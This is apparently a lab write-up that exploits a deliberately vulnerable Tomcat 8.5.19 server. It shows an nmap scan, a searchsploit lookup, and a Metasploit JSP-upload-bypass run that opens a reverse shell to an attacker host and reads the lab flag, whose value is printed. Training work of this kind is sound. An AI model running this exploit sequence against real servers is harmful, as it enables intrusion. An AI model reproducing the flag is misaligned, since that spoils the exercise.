

## Windows: Java Web Server

### Target
`demo.ine.local`

### Tools:
* `msf`

### Objective: Exploit the application and retrieve the flag!
---

```bash
┌──(root㉿INE)-[~]
└─# nmap demo.ine.local -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-25 09:19 IST
Nmap scan report for demo.ine.local (10.3.28.243)
Host is up (0.0028s latency).
Not shown: 990 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8009/tcp  open  ajp13              Apache Jserv (Protocol v1.3)
8080/tcp  open  http               Apache Tomcat 8.5.19
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.64 seconds                
```
```bash
┌──(root㉿INE)-[~]
└─# searchsploit Tomcat | grep Metasploit                                                                                                                                                  
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                          | multiple/webapps/49039.rb
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                                                                     | windows/remote/47073.rb
Apache Tomcat Manager - Application Deployer (Authenticated) Code Execution (Metasploit)                                                                 | multiple/remote/16317.rb
Apache Tomcat Manager - Application Upload (Authenticated) Code Execution (Metasploit)                                                                   | multiple/remote/31433.rb
Apache Tomcat mod_jk 1.2.20 - Remote Buffer Overflow (Metasploit)                                                                                        | windows/remote/16798.rb
Tomcat - Remote Code Execution via JSP Upload Bypass (Metasploit)                                                                                        | java/remote/43008.rb
```
```bash
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > check
[+] 10.3.28.243:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run

[*] Started reverse TCP handler on 10.10.40.3:4444 
[*] Uploading payload...
[*] Payload executed!
[*] Command shell session 1 opened (10.10.40.3:4444 -> 10.3.28.243:49287) at 2026-01-25 09:27:07 +0530


Shell Banner:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 8.5>
```
```bash
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\

09/16/2020  06:03 AM                32 flag.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
09/16/2020  06:00 AM    <DIR>          Program Files
09/05/2020  09:05 AM    <DIR>          Program Files (x86)
09/10/2020  09:50 AM    <DIR>          Users
01/25/2026  03:47 AM    <DIR>          Windows
               1 File(s)             32 bytes
               5 Dir(s)   8,654,647,296 bytes free

C:\>type flag.txt
type flag.txt
92d60a06d0ea2179c9a8c442c0bd0bc0
```
Flag: **92d60a06d0ea2179c9a8c442c0bd0bc0**